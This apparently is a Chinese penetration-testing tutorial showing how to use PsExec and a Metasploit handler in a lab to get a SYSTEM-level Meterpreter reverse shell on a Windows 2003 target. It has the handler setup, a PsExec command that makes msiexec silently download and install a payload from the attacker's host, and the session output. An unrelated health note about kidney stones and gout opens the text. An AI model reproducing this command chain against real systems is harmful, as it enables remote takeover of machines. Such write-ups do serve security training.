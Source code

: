 **注：**请多喝点热水或者凉白开，可预防**肾结石，通风**等。
痛风可伴发肥胖症、高血压病、糖尿病、脂代谢紊乱等多种代谢性疾病。

### PsExec简介：

微软于2006年7月收购sysinternals公司，PsExec是SysinternalsSuite的小工具之一，是一种轻量级的telnet替代品，允许在其他系统上执行进程，完成控制台应用程序的完全交互，而无需手动安装客户端软件，并且可以获得与控制台应用程序相当的完全交互性。

微软官方文档：  
https://docs.microsoft.com/zh-cn/sysinternals/downloads/psexec

说明：PsExec.exe没有默认安装在windows系统。

**攻击机：** 192.168.1.4 Debian  
**靶机：** 192.168.1.119 Windows 2003

### 配置攻击机msf：

```bash
msf exploit(multi/handler) > show options 

Module options (exploit/multi/handler): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐ 

Payload options (windows/meterpreter/reverse_tcp): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐
EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process, none)

LHOST 192.168.1.4 yes The listen address (an interface may be specified)

LPORT 53 yes The listen port 

Exploit target: 

Id Name
‐‐ ‐‐‐‐
0 Wildcard Target 

msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.4:53 
```
![](media/665d55d525ed72757f30454ada5a71de.jpg)

### 靶机执行：
![](media/3832b47f170fb110c44a283765b4bfd4.jpg)

```bash
PsExec.exe -d -s msiexec.exe /q /i <http://192.168.1.4/Micropoor_rev_x86_msi_53.txt>
```

![](media/ac4359c43440d555b4e873409425927c.jpg)

```bash
msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.4:53

[*] Sending stage (179779 bytes) to 192.168.1.119

[*] Meterpreter session 11 opened (192.168.1.4:53 ‐> 192.168.1.119:131) at 2019‐01‐20 05:43:32 ‐0500 

meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM

meterpreter > getpid

Current pid: 728

meterpreter > 
```
![](media/14842fe0c4f8775c8de53de6583282a1.jpg)

>   Micropoor
